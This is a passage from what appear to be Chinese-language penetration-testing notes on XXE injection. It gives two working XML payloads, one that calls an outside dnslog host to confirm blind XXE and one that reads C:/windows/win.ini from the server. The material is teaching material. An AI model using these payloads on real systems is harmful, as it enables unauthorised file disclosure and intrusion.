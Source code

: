         ```c
        <?xml version="1.0" encoding="utf-8"?>
        <!DOCTYPE username [
            <!ENTITY admin SYSTEM "http://98848113.log.dnslog.sbs">
        ]>
        <user>
        	<username>&admin;</username>
        	<password>admin</password>
        </user>
        ```
        
    2. 此时因为返回包无回显，所以看`Dnslog`，点击`get results` ，成功请求了测试链接，存在`XXE`漏洞！！！
        
        ![image.png](image%2018.png)
        

### XXE 文件读取 - 有回显

- 有回显 - 直接读取（理想状态下）
    
    ```c
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE XXE-test [
        <!ENTITY admin SYSTEM "file:///C:/windows/win.ini">
    ]>
    <user>
    	<username>&admin;</username>
    	<password>admin</password>
    </user>
    ```
    
    ![image.png](image%2019.png)
    